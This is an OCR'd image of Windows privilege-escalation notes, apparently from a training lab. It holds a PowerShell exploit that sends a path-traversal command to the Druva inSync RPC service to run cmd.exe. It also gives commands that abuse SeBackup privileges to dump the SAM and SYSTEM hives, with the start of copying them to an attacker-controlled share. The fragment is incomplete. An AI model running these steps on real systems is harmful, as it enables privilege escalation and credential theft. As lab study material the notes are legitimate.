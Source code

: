 ```
  

$header = [System.Text.Encoding]::UTF8.GetBytes("inSync PHC RPCW[v0002]")

$rpcType = [System.Text.Encoding]::UTF8.GetBytes("$([char]0x0005)`0`0`0")

$command = [System.Text.Encoding]::Unicode.GetBytes("C:\ProgramData\Druva\inSync4\..\..\..\Windows\System32\cmd.exe /c $cmd");

$length = [System.BitConverter]::GetBytes($command.Length);

  

$s.Send($header)

$s.Send($rpcType)

$s.Send($length)

$s.Send($command)

  

1. User privileges

  

# check privileges

# List of all privileges: [https://docs.microsoft.com/en-us/windows/win32/secauthz/privilege-constants](https://docs.microsoft.com/en-us/windows/win32/secauthz/privilege-constants)

# Check privileges for escalation: [https://github.com/gtworek/Priv2Admin](https://github.com/gtworek/Priv2Admin)

whoami /priv

  

# Privilege: SeBackup / SeRestore

  

# Backup SAM and system hashes

reg save hklm\system C:\Users\THMBackup\system.hive

reg save hklm\sam C:\Users\THMBackup\sam.hive

  

  

  

# Copy hive files to our own machine

  

# Start SMB share on our own machine

mkdir share

```
